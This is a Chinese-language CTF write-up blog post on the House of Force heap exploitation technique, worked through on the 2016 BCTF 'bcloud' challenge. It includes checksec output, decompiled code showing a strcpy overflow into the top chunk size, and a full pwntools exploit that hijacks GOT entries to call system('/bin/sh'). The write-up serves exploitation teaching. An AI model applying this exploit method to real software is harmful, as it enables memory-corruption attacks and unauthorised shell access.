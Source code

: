 ```yaml
---
title: House_of_force
date: 2019-03-03 14:40:22
tags:
layout: post
---
```

House of force
<!--more-->
#0x00
House of 系列归纳中的一篇.题目还是比较简单可以作为House_of_force的教学题.
[2016BCTF_bcloud][1]
# House of force
* 通过某些手段改写`top_chunk`的size 很大例如(`0xffffffff`)
* 假设malloc `sise`不受限制,我们想要控制Aim_address,目前Top地址为Top_address
* 我们只要malloc Aim_address-Top_address之后再malloc一次就可以控制Aim_address.
* 主要是要求malloc的size可控且大小不受限制，可以控制topchunk_size

# Analysis
```python
➜  House_of_force checksec bcloud
[*] '/home/n132/Desktop/House_of_force/bcloud'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
发现可以写got表且没有PIE

程序先输入名字再输入ORG HOST然后开始标准菜单题只是没有show

# 漏洞分析
## Leak_heap
```arm
  puts("Input your name:");
  readuntil((unsigned int)&s, 64, 10);
  v2 = (char *)malloc(0x40u);
  name = (int)v2;
  strcpy(v2, &s);
  warm_welcome((int)v2);
```
&
```arm
  char s; // [esp+1Ch] [ebp-5Ch]
  char *v2; // [esp+5Ch] [ebp-1Ch]
```
这里只要填满s就会在strcpy时将v2一起copy过去导致泄露heap虽然后来我没用上
##  Force the Top chunk
在init org和id时
```arm
  char org; // [esp+1Ch] [ebp-9Ch]
  char *v2; // [esp+5Ch] [ebp-5Ch]
  int host; // [esp+60h] [ebp-58h]
  char *v4; // [esp+A4h] [ebp-14h]
```
```arm
  puts("Org:");
  readuntil((unsigned int)&org, 64, 10);
  puts("Host:");
  readuntil((unsigned int)&host, 64, 10);
  v4 = (char *)malloc(0x40u);
  v2 = (char *)malloc(0x40u);
  Org = (int)v2;
  Host = (int)v4;
  strcpy(v4, (const char *)&host);
  strcpy(v2, &org);
  puts("OKay! Enjoy:)");
```
`strcpy(v2, &org);`  可以改写topchunk size 原理和上面一个一样.
又因为malloc size没有限制...


# 思路
* Force the Top chunk
* malloc *2 to control bss
* got hijacking: free---->puts
* leak libc
* got hijacking: free---->system
* free("/bin/sh")

# exp
```python
from pwn import *
def cmd(c):
	p.sendlineafter("--->>\n",str(c))
def add(size,c):
	cmd(1)
	p.sendlineafter("tent:\n",str(size))
	p.sendafter("tent:\n",c)
def free(idx):
	cmd(4)
	p.sendlineafter("id:\n",str(idx))
def edit(idx,c):
	cmd(3)
	p.sendlineafter("id:\n",str(idx))
	p.sendafter("tent:\n",c)
#context.log_level='debug'
p=process("./bcloud")
p.sendafter("name:\n","A"*0x40)
p.readuntil("A"*0x40)
heap=u32(p.read(4))-8
log.warning(hex(heap))

p.sendafter("Org:\n","A"*0x40)
p.sendafter("Host:\n",p32(0xfffffff1)+"\n")
array=0x804B0A0
off=array-heap-0xf0
add(off,"A\n")#0
add(0x200,p32(0x50)*34+p32(0x804b014)+p32(0x804b024)+"\n")#1
edit(0,p32(0x08048520)+'\n')
free(1)
base=u32(p.read(4))-(0xf7e65ca0-0xf7e06000)
log.warning(hex(base))
edit(0,p32(0xf7e40da0-0xf7e06000+base)+'\n')
add(0x20,'/bin/sh'+'\n')
free(1)
#gdb.attach(p)
p.interactive()
```


[1]: https://github.com/n132/Watermalon/tree/master/House%20of%20all%20in%20one/House%20of%20force